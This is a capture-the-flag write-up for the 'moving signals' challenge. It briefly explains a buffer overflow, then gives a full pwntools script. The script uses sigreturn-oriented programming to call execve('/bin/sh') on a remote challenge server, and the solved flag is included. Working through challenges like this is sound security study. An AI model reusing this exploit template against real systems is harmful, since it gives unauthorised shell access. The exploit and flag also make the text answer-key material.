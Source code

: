 ## 0x41414141 CTF: moving signals
> desc to be added later

##### *tl;dr: signal return oriented programming*
#### Details later. We have a buffer overflow but only little gadgets to work with (only to set rax, rdi but nothing to set rdx rsi etc.). We have a /bin/sh string on the binary and with the challenge title serving as a hint, I prepared a sigrop exploit.

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
binary = ELF('./moving-signals', checksec = False)
#: libc = ELF('./libc', checksec = False)
#p = process('./moving-signals')
#: p = process('./moving-signals', env = {'LD_PRELOAD' : './libc.so'})
p = remote("185.172.165.118", 2525)

#: GDB SETTINGS
breakpoints = ['break *0x41015']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION FUNCTIONS
pop_rax = 0x0000000000041018
ret = 0x0000000000041017
syscall = 0x0000000000041015

#: PWN THY VULNS
context.arch = 'amd64'
exploit = cyclic(8)
exploit += p64(ret)
exploit += p64(pop_rax)
exploit += p64(0xf)
exploit += p64(syscall)

#:
frame = SigreturnFrame(kernel = "amd64")
frame.rax = 59 #: execve syscall
frame.rdi = 0x41250 #: /bin/sh string in memory
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall #: execve('/bin/sh', 0, 0);

exploit += str(frame)
p.sendline(exploit)

#: Stage 2
p.interactive()
#: flag{s1gROPp1ty_r0p_321321}
```